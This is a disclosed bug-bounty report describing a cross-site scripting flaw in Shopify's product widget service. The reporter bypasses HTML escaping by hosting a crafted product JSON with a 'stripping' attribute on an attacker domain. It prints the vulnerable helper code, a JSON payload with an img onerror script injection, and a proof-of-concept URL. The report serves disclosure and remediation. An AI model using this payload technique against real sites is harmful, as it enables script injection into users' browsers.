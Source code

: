 # XSS on "widgets.shopifyapps.com" via "stripping" attribute and "shop" parameter

## Report Details
- **Report ID**: 246794
- **URL**: https://hackerone.com/reports/246794
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-07-07T07:06:08.957Z
- **Disclosed**: 2018-04-03T19:44:37.398Z

## Reporter
- **Username**: bored-engineer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
# Description
Shopify allows developers to embed widgets (containing product info) on third-party websites via "widgets.shopifyapps.com". When the widget is rendered the `shop` attribute is not filtered allowing any website (not just Shopify shops) to be specified. By providing an attacker controlled domain and serving a specially crafted payload containing the `stripping` object attribute HTML escaping will be disabled resulting in XSS on "widgets.shopifyapps.com".

# Technical Details
This issue occurs in [/assets/widgets/product/application.js](https://widgets.shopifyapps.com/assets/widgets/product/application.js). The `Framework.Models.Collection` class (used for fetching collections of objects) defines a special `parse` method which automatically escapes all strings. This escaping is provided by `Framework.Helpers.stripHTMLForObject` which looks like this (prettified):
```js
Framework.Helpers.stripHTMLForObject = function(obj) {
  obj.stripping = true;
  var idx, val;
  for (idx in obj) {
    if (obj.hasOwnProperty(idx)) {
      var val = obj[inx]
      if("string" == typeof val) {
        obj[idx] = Framework.Helpers.stripHTML(val) 
      } else {
        if(null != val && "object" == typeof val && null == val.stripping) {
          obj[idx] = this.stripHTMLForObject(val)
        }
     }
   }
   delete obj.stripping;
   return obj;
}
``` 
The `Framework.Helpers.stripHTML` function seems to be a implementation of the [Caja compiler](https://developers.google.com/caja/) which we can assume is safe, however by crafting a object with a `stripping` attribute HTML escaping will be disabled. An example product would look like this:
```json
{
	"product": {
		"variants": [{
			"stripping": false,
			"title": "<option/><select/><img src=xx: onerror=alert('bored-engineer')>"
		}, {}],
		"options": [],
		"images": [{}],
		"image": {}
	}
}
```
I've hosted this file (and the other required `meta.json` file) on [attackerdoma.in](https://attackerdoma.in).

# Proof of Concept
Open [widgets.shopifyapps.com/products/stripping-xss?shop=attackerdoma.in](https://widgets.shopifyapps.com/products/stripping-xss?shop=attackerdoma.in)

# Exploitability
Once you locate the escaping issue it's relatively trivial to exploit and requires to user interaction as shown in the PoC.

# Remediation
The application should not allow shops/servers to disable HTML escaping via the `stripping` attribute.

## Attachments
No attachments
